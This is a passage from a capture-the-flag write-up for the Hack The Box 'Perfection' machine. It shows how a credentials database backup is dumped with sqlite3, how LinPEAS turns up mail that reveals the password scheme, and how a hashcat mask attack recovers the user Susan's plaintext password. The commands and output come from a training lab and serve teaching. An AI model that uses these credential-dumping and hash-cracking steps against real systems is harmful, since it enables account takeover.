 * There's a database backup from a Migration, that has Susan's password hash.
* I downloaded the db file to my local machines and opened it with sqlite3

```bash
┌─[✗]─[support@parrot]─[~/Documents/HTB/boxes/perfection]
└──╼ $sqlite3 pupilpath_credentials.db 
SQLite version 3.40.1 2022-12-28 14:03:47
Enter ".help" for usage hints.
sqlite> .tables
users
sqlite> select * from users;
1|Susan Miller|abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
2|Tina Smith|dd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57
3|Harry Tyler|d33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393
4|David Lawrence|ff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87a
5|Stephen Locke|154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8
```

### Enumeration

#### LinPeas

* There is mail for susan.

```
╔══════════╣ Mails (limit 50)
    39937      4 -rw-r-----   1 root     susan         625 May 14  2023 /var/mail/susan
    39937      4 -rw-r-----   1 root     susan         625 May 14  2023 /var/spool/mail/susan
```

<pre><code>Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

<strong>{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}
</strong>
Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
</code></pre>

### Cracking Hashes

```bash
hashcat -m 1400 -a3 abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f "susan_nasus_?d?d?d?d?d?d?d?d?d?d" --increment --increment-min=1
```

```
abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f:susan_nasus_413759210
```
